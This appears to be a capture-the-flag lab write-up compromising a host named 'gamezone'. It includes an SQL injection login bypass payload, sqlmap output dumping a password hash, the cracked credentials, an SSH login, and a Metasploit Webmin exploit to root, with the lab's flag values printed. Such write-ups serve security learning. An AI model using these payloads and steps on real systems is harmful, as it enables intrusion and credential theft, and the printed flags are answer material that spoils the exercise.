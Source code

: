 nmap 
```
┌──(gomez22㉿DESKTOP-V2K8SJ4)-[~]
└─$ sudo nmap -sS -sV -Pn 10.10.26.202
[sudo] password for gomez22: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-13 16:20 PDT
Nmap scan report for 10.10.26.202
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

There is a place to login on 10.10.26.202
Bypassed it with `admin' or '1'='1' #` in the username field.

I was redirected to /portal.php which had a search field. It makes POST requests to the back end. I intercepted the request
using burp and used it with sqlmap to dump usernames and hashes.

sqlmap
```
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[16:30:49] [INFO] table 'db.post' dumped to CSV file '/home/gomez22/.local/share/sqlmap/output/10.10.26.202/dump/db/post.csv'
[16:30:49] [INFO] fetching columns for table 'users' in database 'db'
[16:30:49] [INFO] fetching entries for table 'users' in database 'db'
[16:30:49] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[16:31:13] [INFO] writing hashes to a temporary file '/tmp/sqlmapjle5tvrf6211/sqlmaphashes-j3_dkc0s.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[16:31:22] [INFO] table 'db.users' dumped to CSV file '/home/gomez22/.local/share/sqlmap/output/10.10.26.202/dump/db/users.csv'
[16:31:22] [INFO] fetched data logged to text files under '/home/gomez22/.local/share/sqlmap/output/10.10.26.202'

```

gobuster
```
─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -x js,php,html,txt -u 10.10.26.202
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.26.202
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              js,php,html,txt
[+] Timeout:                 10s
===============================================================
2022/07/13 16:22:47 Starting gobuster in directory enumeration mode
===============================================================
/.hta.txt             (Status: 403) [Size: 295]
/.hta                 (Status: 403) [Size: 291]
/.hta.js              (Status: 403) [Size: 294]
/.hta.php             (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 296]
/.hta.html            (Status: 403) [Size: 296]
/.htpasswd.php        (Status: 403) [Size: 300]
/.htaccess.js         (Status: 403) [Size: 299]
/.htpasswd.html       (Status: 403) [Size: 301]
/.htaccess.php        (Status: 403) [Size: 300]
/.htpasswd.txt        (Status: 403) [Size: 300]
/.htaccess.html       (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 296]
/.htaccess.txt        (Status: 403) [Size: 300]
/.htpasswd.js         (Status: 403) [Size: 299]
/images               (Status: 301) [Size: 313] [--> http://10.10.26.202/images/]
/index.php            (Status: 200) [Size: 4502]                                 
/index.php            (Status: 200) [Size: 4502]                                 
/portal.php           (Status: 302) [Size: 0] [--> index.php]                    
/server-status        (Status: 403) [Size: 300]  
```

I used `hash-identifier` to find out the hash is sha256. I then cracked it using hashcat.
`ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14:videogamer124`

I then ssh'd in as `agent47:videogamer124`

Found the user flag
```
agent47@gamezone:~$ ls
user.txt
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
agent47@gamezone:~$ 
```

I can't run sudo on gamezone...darn.
I followed the instructions to get a reverse ssh tunnel. I was able to open `localhost:10000` in my browser which took me
to a login page that is running `webmin` cms. I was able to login as `agent47:videogamer124` and I found the cms version of 1.580.

I used metasploit to find an exploit for the cms then filled in the required parameters. I ran the exploit which immediately gave me a root shell.
I grabbed the flag `a4b945830144bdd71908d12d902adeee` and challenge done!
